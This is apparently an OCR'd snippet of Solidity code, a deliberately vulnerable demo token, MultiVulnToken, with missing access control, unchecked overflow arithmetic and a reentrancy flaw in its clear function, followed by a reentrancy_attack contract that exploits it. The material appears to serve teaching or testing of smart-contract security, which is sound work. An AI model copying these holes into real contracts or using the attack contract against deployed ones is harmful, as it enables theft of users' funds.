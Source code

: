 ```solidity
    }

    mapping (address => uint256) balances;
}

contract MultiVulnToken is StandardToken {
    string public name = "Demo token with reentrancy issue, integer overflow and access control issue";
    constructor (uint256 initialSupply) {
        totalSupply = initialSupply;
        balances[msg.sender] = totalSupply;
    }
    function transferProxy(address _from, address _to, uint256 _value, uint256 _fee
        ) public returns (bool){
		unchecked{
			require(balances[_from] >= _fee + _value);
			require(balances[_to] + _value >= balances[_to]);
			require(balances[msg.sender] + _fee >= balances[msg.sender]); 
			
			balances[_to] += _value;
			balances[msg.sender] += _fee;
			balances[_from] -= _value + _fee;
			return true;
		}
    }

    //This function moves all tokens of msg.sender to the account of "_to"
    function clear(address _to) public {
        uint256 bal = balances[msg.sender];
        require (msg.sender!=_to);
        balances[_to]+=bal;
        bool success;
        (success, ) = msg.sender.call(
            abi.encodeWithSignature("receiveNotification(uint256)", bal)
        );
        require(success, "Failed to notify msg.sender");
        balances[msg.sender] = 0;
    }
}

//========================================================
contract reentrancy_attack {
    MultiVulnToken public multiVulnToken; 
    address _to;
    uint count=0;
    constructor (MultiVulnToken _multiVulnToken, address __to) 
    {
        multiVulnToken=_multiVulnToken;
        _to = __to;
    }
    function receiveNotification(uint256) public { 
        if (count < 9) {
            count ++;
            multiVulnToken.clear(_to); 
        }
    } 
    function attack() public {
        multiVulnToken.clear(_to);
    }
}

contract Demo {
    MultiVulnToken MultiVulnTokenContractAddress;
```